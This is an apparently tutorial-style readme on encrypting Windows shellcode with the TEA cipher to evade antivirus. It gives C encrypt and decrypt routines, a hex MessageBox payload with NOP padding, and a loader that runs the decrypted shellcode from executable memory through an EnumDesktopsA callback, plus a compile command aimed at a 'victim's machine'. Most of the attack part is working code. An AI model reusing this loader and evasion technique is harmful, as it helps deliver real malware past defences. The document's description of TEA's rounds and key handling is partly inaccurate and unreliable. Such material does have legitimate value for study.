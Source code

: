 # 06 cryptogpraphy - TEA encryption (payload)

### TEA

*TEA (Tiny Encryption Algorithm)* is a symmetric-key block cipher algorithm that operates on `64-bit` blocks and uses a `128-bit` key. The basic flow of the TEA encryption algorithm can be outlined as follows:

- Key expansion: The `128-bit` key is split into two `64-bit` subkeys.
- Initialization: The `64-bit` plaintext block is divided into two `32-bit` blocks.
- Round function: The plaintext block undergoes several rounds of operations, each consisting of the following steps:
  - Addition: The two `32-bit` blocks are combined using bitwise addition modulo `2^32`.
  - XOR: One of the subkeys is XORed with one of the `32-bit` blocks.
  - Shift: The result of the previous step is cyclically shifted left by a certain number of bits.
  - XOR: The result of the shift operation is XORed with the other `32-bit` block.

- Finalization: The two `32-bit` blocks are combined and form the `64-bit` ciphertext block.

The exact number of rounds in the TEA algorithm and the specific values used for key expansion and shifting depend on the specific implementation of the algorithm.      

Here is a simple implementation of the Tiny Encryption Algorithm (TEA) in C that can be used to encrypt and decrypt:      

```cpp
void tea_encrypt(unsigned char *data, unsigned char *key) {
  unsigned int i;
  unsigned char x = 0;

  unsigned int delta = 0x9e3779b9;
  unsigned int sum = 0;

  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);

  for (i = 0; i < ROUNDS; i++) {
    v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + ((unsigned int *)key)[sum & 3]);
    sum += delta;
    v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + ((unsigned int *)key)[(sum >> 11) & 3]);
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}

void tea_decrypt(unsigned char *data, unsigned char *key) {
  unsigned int i;
  unsigned char x = 0;

  unsigned int delta = 0x9e3779b9;
  unsigned int sum = delta * ROUNDS;

  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);

  for (i = 0; i < ROUNDS; i++) {
    v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + ((unsigned int *)key)[(sum >> 11) & 3]);
    sum -= delta;
    v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + ((unsigned int *)key)[sum & 3]);
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}
```

So, for encryption shellcode we can just run something like this:    

```cpp
unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
unsigned char my_payload[] =
// 64-bit messagebox
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int len = sizeof(my_payload);
int pad_len = (len + 8 - (len % 8)) & 0xFFF8;

unsigned char padded[pad_len];
memset(padded, 0x90, pad_len); // pad the shellcode with 0x90
memcpy(padded, my_payload, len); // copy the shellcode to the padded buffer

// encrypt the padded shellcode
for (int i = 0; i < pad_len; i += 8) {
  tea_encrypt(&padded[i], key);
}
```

As you can see, first of all, before encrypting, we use padding via the NOP (`\x90`) instructions. For this example, use the `meow-meow` messagebox payload as usual.     

For correctness, I add the decrypt function. and try to run shellcode:     

```cpp
// tea_decrypt(my_payload, key);
for (int i = 0; i < pad_len; i += 8) {
  tea_decrypt(&padded[i], key);
}

printf("decrypted:\n");
for (int i = 0; i < sizeof(padded); i++) {
  printf("\\x%02x", padded[i]);
}
printf("\n\n");

LPVOID mem = VirtualAlloc(NULL, sizeof(padded), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, padded, pad_len);
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

Compile our "malware":      

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![img](./img/2024-05-14_08-53.png)    

And run it at the victim's machine (`Windows 10 x64`):      

![img](./img/2024-05-14_09-06.png)    

As you can see, our decrypted shellcode is modified: padding `\x90` is working as expected:      

![img](./img/2024-05-14_09-06_1.png)    

Via [https://cocomelonc.github.io/malware/2023/02/20/malware-av-evasion-12.html](https://cocomelonc.github.io/malware/2023/02/20/malware-av-evasion-12.html)     